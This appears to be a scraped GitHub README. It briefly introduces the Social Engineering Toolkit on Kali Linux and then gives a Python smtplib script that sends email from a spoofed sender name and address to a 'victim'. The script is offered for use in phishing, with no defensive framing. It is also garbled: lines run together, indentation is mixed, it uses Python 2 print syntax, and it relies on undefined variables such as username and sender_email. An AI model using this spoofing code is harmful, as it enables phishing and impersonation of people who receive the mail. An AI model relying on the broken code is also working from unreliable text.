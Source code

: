 The Social Engineer Toolkit

The Social Engineering Toolkit (SET), written by security leader David Kennedy, is designed to perform advanced attacks against human weaknesses; this is known as social engineering. Kali Linux already has this tool preinstalled by default. To run it, you will need to execute setoolkit in your terminal window: root@kali:/# setoolki
folow the instruction

```python
password = [Your SMTP account password] #Spoofed e-mail information 
spoofed_email = [fake email address]
#Spoofed full name 
spoofed_name = 'John Doe' 
#Victim e-mail address 
victim_email = [victim email address] 
# E-mail subject 
subject= "this is a subject\n" 
# E-mail body message 
body = "This is a body." 
header = ('To:' + victim_email + '\n' +'From: ' + spoofed_name + ' <' + spoofed_email + '>' + '\n' + 'Subject:' + subject) message = (header + '\n\n' + body + '\n\n')
try: 
	session = smtplib.SMTP_SSL([smtp server domain],[smtp server port number]) 
    session.ehlo() session.login(username, password)
	session.sendmail(sender_email, victim_email, message)
	session.quit()
	 print "Email Sent With Success!"
except:
	smtplib.SMTPException: print "Error: Unable To Send The Email!"

```